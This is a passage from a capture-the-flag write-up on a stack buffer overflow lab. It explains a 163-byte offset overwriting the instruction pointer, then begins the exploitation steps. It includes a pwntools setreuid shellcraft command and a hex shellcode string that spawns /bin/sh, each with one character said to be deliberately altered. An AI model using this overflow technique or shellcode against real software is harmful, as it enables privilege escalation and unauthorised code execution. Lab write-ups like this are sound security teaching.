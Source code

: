 ![figure-4.png](figure-4.png)

This content means, in turn, the following memory model: 
```
[646f 6767 6f41 4141 (...bunch of 41s...)        ][4141 4141 4141 4141][4242 4242 4242 0000].
```
or in plain ASCII:
```
[doggoAAAA         (...bunch of As...)           ][AA AA AA AA][BB BB BB 0000].
```
This goes to show that by overflowing the function's inputs with 163 consecutive A's, we have been able to overwrite the instruction pointer to the value `0x0000424242424242`, that is six consecutive B's. (It thus reveals an offset of 163 bytes). Of course, there is no instruction that the program can comprehend at the address `0x0000424242424242`, and so it attempting to execute it will lead to a crash. If we however refine the idea and replace the B's by an address that points to some malicious code, we will be well on our way. 

Before we move on to the rest of the write-up, it is worth nothing that before the `ret` instruction is called (mention #3) the instruction pointer in the registery is equal to `0x004005aa` while two steps later (mention #4), it equals `0x424242424242` (which is BBBBBB in hexadecimal). This is so because the `ret` instruction unpacked the value "BBBBBB" from memory and assigned it to the instruction pointer in the registery. We thus have hacked the flow of the program.  

The rest of the write-up is more practical and shows how to make something out of it. 

# Implementing the four practical steps
## 1- Identifying the offset
This has been done in the previous sections of this write-up. 

## 2- Craft the malicious code
The general strategy is very well explained in [L1ges write-up](https://l1ge.github.io/tryhackme_bof1/). In summary: 

- Use [pwntool](https://docs.pwntools.com/en/stable/) to generate the proper shell permission in your shell code. This can be done with the command: 
    ```
    $pwn shellcraft -f d amd64.linux.setreuid 1002
    ```
    (You however need to change **one** alphanumeric character from this command to actually adapt it to task 9). 
- Use the hex code that the command spits to prepend the binary shell code provided in L1ge's write-up. You should get something like:   
   ```
  \x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
    ```
    (With **one** hexadecimal incorrectly specified that will be accurate if the proper number is changed in the previous command.)
   ```
